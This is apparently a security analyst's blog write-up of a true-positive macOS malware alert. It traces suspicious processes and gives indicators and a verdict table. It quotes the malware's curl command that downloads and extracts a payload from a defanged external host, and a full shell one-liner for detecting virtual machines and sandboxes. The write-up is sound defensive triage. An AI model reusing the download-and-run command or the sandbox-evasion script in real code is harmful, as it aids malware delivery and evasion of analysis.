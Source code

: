 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
mermaid: true
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for the sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain as it is part of the OS (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes, for example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "451CEB63-C438-40C3-899F-0BE4F425F074"?
here again, for simplicity I focus on one of these odd looking processes, there are a bucket load of them.

This executable runs a download via curl of some additional code from [external](https://www.virustotal.com/gui/url/602823beeb1e3e8c4b09c1c4defeb5c6381620e6a6b9be9c3120df12c21c0f0e) and extracts it to "/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

After that the archive helpexecd.tgz is extracted to /var/tmp/helpexecd/ and executed.
This new process helpexecd then runs the following command (amongst other things)
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

## Flowchart
```mermaid
flowchart TD
kernel_task --> launchd
launchd --> xpcproxy
xpcproxy --> |run| apadecoded
apadecoded --> 451CEB63-C438-40C3-899F-0BE4F425F074
apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4
apadecoded --> AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09
451CEB63-C438-40C3-899F-0BE4F425F074 --> curl
DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> |run| curl
AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl
curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134
89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz
89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz
/private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd
helpexecd --> 35.160.226.50
helpexecd --> 34.217.226.241
style apadecoded stroke-dasharray: 88.5 44
style helpexecd stroke-dasharray: 88.5 44
```

## Hunting deeper

We have so far focused on one process, but here is a list of a lot more of them.
All of them do the exact same things, which really makes me think that his could be real malware, how exciting.

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

I now turned to Virustotal to see what they have to say about this.
Once again with focus on one process [apadecoded](https://www.virustotal.com/gui/file/ec791335020a61a36263de7671ab9741d9212cc4692c85abca81862e0daaf82c)
on VT I get a lot of Adware chatter, which in my opinion of course could be true. But some also classify this as outright malware.
It is always difficult to know when to stop an investigation, I would love to analyse this more in a sandbox, but since we usually only have Windows Sandboxes, and I have no patience to build a mac one, let's stop this here.
I think we have enough indicators anyway

## Verdict

| Indicator                                                                   | Thoughts                                                           | Verdict |
|-----------------------------------------------------------------------------|--------------------------------------------------------------------|---------|
| Process starts strangely named Processes                                    | Maybe a kind of obfuscation?                                       | +20%    |
| "Obfuscated" process downloads additional code                              | Very likely bad behaviour                                          | +20%    |
| Newly downloaded code is checks hardware it is running on (sandbox evasion) | Sandbox evasion is often a bad sign                                | +20%    |
| Many processes doing exactly the same                                       | Once again, this looks like something done to confuse the defender | +20%    |
| Virustotal results in Adware or Malware                                     | Honestly, it could be Adware, but I will treat as Malware          | +20%    |

**Verdict: True Positive**

## Next Steps
Reinstall that machine, no patience for cleaning such a mess
